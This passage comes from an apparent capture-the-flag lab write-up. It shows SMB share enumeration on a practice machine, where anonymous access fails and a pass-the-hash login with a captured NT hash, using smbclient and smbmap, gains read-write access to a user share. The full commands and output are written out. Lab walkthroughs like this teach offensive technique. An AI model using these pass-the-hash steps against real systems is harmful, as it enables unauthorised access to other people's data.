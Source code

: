     Nmap done: 1 IP address (1 host up) scanned in 599.78 seconds
    

There’s a couple users in there, bob8791 and alice1978. The passwords are both
redacted, but alice1978 has an NT hash.

### SMB - Port 139 / 445

#### Enumerate Shares

If I enumerate shares without a password, I get nothing back from either
`smbmap` or `smbclient`:

    
    
    root@kali# smbmap -H 10.10.10.107
    [+] Finding open SMB ports....
    [+] Guest SMB session established on 10.10.10.107...
    [+] IP: 10.10.10.107:445	Name: 10.10.10.107                                      
    	Disk                                                  	Permissions
    	----                                                  	-----------
    [!] Access Denied
    
    root@kali# smbclient -N -L //10.10.10.107
    Anonymous login successful
    tree connect failed: NT_STATUS_ACCESS_DENIED
    

Fortunately, SMB allows pass the hash, and I now have a hash for alice1978. To
use a hash with `smbclient`, you just the same `-U username%password` format,
but just put the hash in place of the password, and add the `--pw-nt-hash`
option:

    
    
    root@kali# smbclient -L \\\\10.10.10.107 --pw-nt-hash -U alice1978%0B186E661BBDBDCF6047784DE8B9FD8B
    
            Sharename       Type      Comment
            ---------       ----      -------
            alice           Disk      Alice's Windows Directory
            IPC$            IPC       IPC Service (Samba Server)
    Reconnecting with SMB1 for workgroup listing.
    
            Server               Comment
            ---------            -------
    
            Workgroup            Master
            ---------            -------
    

I can do the same thing with `smbmap` just giving the hash as a password, but
it requires a hash in LM:NT format. I can just add the LM hash for the empty
string, aad3b435b51404eeaad3b435b51404ee.

    
    
    root@kali# smbmap -u alice1978 -p 'aad3b435b51404eeaad3b435b51404ee:0B186E661BBDBDCF6047784DE8B9FD8B' -H 10.10.10.107
    [+] Finding open SMB ports....
    [+] Hash detected, using pass-the-hash to authentiate
    [+] User session establishd on 10.10.10.107...
    [+] IP: 10.10.10.107:445	Name: 10.10.10.107                                      
    	Disk                                                  	Permissions
    	----                                                  	-----------
    	alice                                             	READ, WRITE
    	IPC$                                              	NO ACCESS
    